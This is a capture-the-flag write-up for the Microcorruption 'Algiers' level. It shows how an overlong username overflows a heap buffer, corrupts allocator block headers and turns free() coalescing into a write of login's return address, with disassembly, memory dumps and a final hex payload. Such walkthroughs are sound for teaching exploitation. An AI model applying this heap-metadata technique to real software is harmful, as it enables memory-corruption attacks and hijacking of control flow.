



# Algiers

When we start this challenge we are greated with the following:

> This lock contains the all-new LockIT Pro Account Manager.  
> ...  
> LockIT Pro Account Manager solves the problem of sharing passwords when multiple users must have access to a lock. The Account Manager contains a mapping of users to PINs, each of which is 4 digits. The system supports hundreds of users, each configured with his or her own PIN, without degrading the performance of the manager.  
>  
> There are no accounts set up on the LockIT Pro Account Manager by default. An administrator must first initialize the lock with user accounts and their PINs. User accounts are by default not authorized for access, but can be authorized by attaching the Account Manager Authorizer. This  prevents users from adding themselves to the lock during its use.

Doing a quick scan of the assembly code we also see a few new methods we haven't had in the other exercises:

- malloc
- free

So we should keep an eye out for heap-related vulnerabilities/exploits.

Let's start looking at what is going on here...

- We start in `<main>` and there is a call to `<login>`
- We call `<malloc>` requesting `0x10 (16)` bytes of memory from the heap and store the returned pointer in `r10`

```asm
463e:  3f40 1000      mov	#0x10, r15
4642:  b012 6444      call	#0x4464 <malloc>
4646:  0a4f           mov	r15, r10
```

- We then do this again and store the returned pointer in `r11` - so now we have two allocated buffers on the heap for 16 bytes each.
- We then print some things to the terminal and request user input (up to 0x30 (48) bytes) and store in the heap buffer stored in `r10`:

```asm
4662:  3e40 3000      mov	#0x30, r14
4666:  0f4a           mov	r10, r15
4668:  b012 0a47      call	#0x470a <getsn>
```

So my first thought is: we allocate a buffer of length 16 on the heap, but allow the user to input 48 bytes, so we should look at heap corruption and see if we can use that to unlock the lock.

When I look at the heap to check what is stored around the two allocated buffers I see the following (my inputs were the strings "username" and "password" to make it clear where the data is being stored):

```sh
> r r10 48
240e 7573 6572 6e61 6d65 0000 0000 0000 0000  username........
241e 0824 3424 2100 7061 7373 776f 7264 0000  .$4$!.password..
242e 0000 0000 0000 1e24 0824 9c1f 0000 0000  .......$.$......
```

So the username buffer has 16 bytes allocated, then there are 3 words `0824 3424 2100` which I don't yet know what they represent, followed by the allocated buffer for the password. I'm guessing that the 3 words between the username and password are some sort of header that `malloc` added to track allocated blocks and be able to manage the heap region. Next we need to look more closely at what `malloc` is doing...

If we look at the start of the heap (at address 0x2400), we see:

```sh
2400: 0824 0010 0000 0000 0824 1e24 2100 7573   .$.......$.$!.us
2410: 6572 6e61 6d65 0000 0000 0000 0000 0824   ername.........$
2420: 3424 2100 7061 7373 776f 7264 0000 0000   4$!.password....
2430: 0000 0000 1e24 0824 9c1f 0000 0000 0000   .....$.$........
2440: 0000 0000 0000 0000 0000 0000 0000 0000   ................
2450: * 
```

At the beginning of the heap we have 3 words:

- `@2400: 2408`
- `@2402: 1000`
- `@2404: 0000`

After looking at the assembly code, the value at `2404` seems to be a flag to check if the heap has been initialized (if `0000` skips the init block). The value at `2400` points to the first block on the heap (`2408`), and the value at `2402` tracks the size of the first allocated block (`0x10`).

```text
 0                   1
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|        First Block Ptr        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|        First Block Size       |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|        Heap Init Flag         |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

The headers for each block then form a doubly-linked list, where the first word points to the previous block, then a pointer to the next block, followed by the block size + flag for whether or not this block is allocated or not.

```text
 0                   1
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|         Prev Block Ptr        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|         Next Block Ptr        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|          Block Size         |F|
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                               |
+        Allocated Buffer       +
|                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

With this info we can see that the heap layout looks something as follows:



The size of the first two blocks in this specific example = 16-bytes `(0x21 >> 1) = 0x10`, and the last block (which tracks the remaining space of the heap that is un-allocated) is `(0x1f9c >> 1) = 0x0fce (4046)`.

So now we need to figure out how to use this structure of the heap along with the fact that we can write past the allocated buffer (and onto the header of the next block) in order to get the program to direct execution to the `<unlock_door>` method (at memory address `0x4564`).

Looking at this a bit further, I realized that just changing an allocated block's metadata doesn't directly allow us to change data in memory. It's not until another invocation of `<malloc>` or a call to `<free>` that we can change what is written in memory. So now we need to look more closely at `<free>`.

At a high level, when free is called on a block, it needs to check whether the memory region being released can be coalesced with one of the adjacent memory regions (and update the prev/next and size fields), otherwise it needs to mark that region's flag to "not allocated" and keep the other fields intact. In it's logic, free will try coalescing with the Previous memory region first (and update Prev's header data to include the size of the region it is freeing), or coalesce Next's memory region with the one we are freeing.

In this example we see that the heap region for the password is free'd first, so this region (if we didn't do any heap manipulation) will be joined with block #3 (the block that tracks the remaining heap region that is marked "not allocated"). So free will change the "next" ptr to point to Block #1, the size will be increased to be equal to the size of the remaining of the heap, and the flag will be cleared to mark the region as not allocated.

With this info I'm going to see what it would take for us to change the return address of the `login` method from `main` to `unlock_door` instead.

Let's first locate where on the stack the return address for `login` is stored. Setting a breakpoint at the start of `<login>` when `main` calls `login` it will push onto the stack the return address that gets popped via the `ret` instruction:

```sh
> break login
  Breakpoint set
> reset
> c
> r sp
439a 4044 0000 0000 0000 0000 0000 0000 0000  @D..............
43aa 0000 0000 0000 0000 0000 0000 0000 0000  ................
```

So we see the return address we want to try to overwrite is at memory location `0x439a`, and we want to change it from `0x4440` to `0x4564` (the address of `unlock_door`). To do this we will need to carefully set the Prev/Next pointers and block size to a value that will trick `free` into adjusting this memory region.

So my strategy here is going to be to change Block #2's `Prev Ptr` to point to the stack region where we want to overwrite the return address, and set Block #2's size to be the difference between `0x4440` and the value I want to set.

Before:



After:



- 16-bytes of random data to fill the allocated buffer: `5a5a5a5a5a5a5a5a5a5a5a5a5a5a5a5a`
- Address to overwrite the Prev Ptr: 0x4396 --> `9643`
- Next Ptr address (set this to Block #1): 0x2408 --> `0824`
- Size adjustment:
  - Current size encoded at memory address `0x439a`:
    - `0x4440 >> 1 = 0x2220`
  - What we want to encode at memory address `0x439a` after a call to free:
    - `0x4564 >> 1 = 0x22b2`
  - Difference = `0x22b2 - 0x2220 = 0x92`
    - This means we want to set the size of Block #2 to `0x92`:
  - Block #2's size = `(0x92 << 1) + 1 = 0x125`
    - `+ 1` is so that the `F` flag is set marking the region as allocated
  - After running this I see that there is a 6-byte difference between my target value and what was written (which is the size of the header for block 2 that is also added to the total number of available bytes on the heap), so the final value I'm going to use is `0x011F`

Username: `5a5a5a5a5a5a5a5a5a5a5a5a5a5a5a5a964308241f01`
Password: `ffffffffffffffffffffffffffffffff`

Running this I see that after the first call to free, we have the right value that we wanted to set in the stack:

```sh
# before first call to free:
> r 439a 2
439a 4044  @D
# after first call to free:
> r 439a 2
439a 6445  dE
# after second call to free:
> r 439a 2
439a ae46  .F
```

But my solution fails to realize that when the second `free` is called, Block #1's size + header bytes will be coalesced as well and will further change the target value. So we need to take his also into account.

After some trial an error I come to the realization that jumping directly to the start of the `<unlock_door> method is not going to work and I'm ending up either 4 bytes short of 2 bytes ahead of my target value. 

So instead of jumping to the address of the `unlock_door` method, I'm going to try jumping to the `call <unlock_door>` instruction inside the `<login>` method:

```asm
468e:  0524           jz	$+0xc <login+0x60>
4690:  b012 6445      call	#0x4564 <unlock_door>
4694:  3f40 0b46      mov	#0x460b, r15
```

New target address around `0x4690`.

After some trial an error I was able to get the code to jump to `0x468e` which is close enough to call `unlock_door` using the following input:

Username: `5a5a5a5a5a5a5a5a5a5a5a5a5a5a5a5a964308240F01`
Password: `00`

**Solution:**

```sh
> solve
5a5a5a5a5a5a5a5a5a5a5a5a5a5a5a5a964308240F01
00
```
